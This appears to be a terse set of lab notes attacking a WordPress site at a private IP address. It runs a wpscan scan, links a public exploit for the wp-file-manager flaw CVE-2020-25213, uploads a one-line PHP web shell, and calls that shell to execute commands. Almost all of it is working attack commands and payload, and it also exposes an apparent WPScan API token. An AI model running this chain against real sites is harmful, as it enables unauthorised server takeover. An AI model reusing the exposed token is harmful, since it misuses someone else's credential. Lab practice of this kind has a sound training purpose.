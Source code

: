 # colab
wpscan --url http://192.168.80.133:8000/ --api-token NMtjfXnMnhiNDVIAMES84ZqNDwhvJMoxtnsq9w9QqSg --plugins-version-detection aggressive
https://github.com/mansoorr123/wp-file-manager-CVE-2020-25213
/wp-file-manager-exploit.sh -u http://192.168.80.133:8000 --check
./wp-file-manager-exploit.sh -u http://192.168.80.133:8000 -f ~/v10cr/wp/wp-file-manager-CVE-2020-25213/shell.php --verbose
<?php system($_GET['cmd']);?>
http://192.168.80.133:8000/wp-content/plugins/wp-file-manager/lib/php/../files/shell.php?cmd=ls%20-al
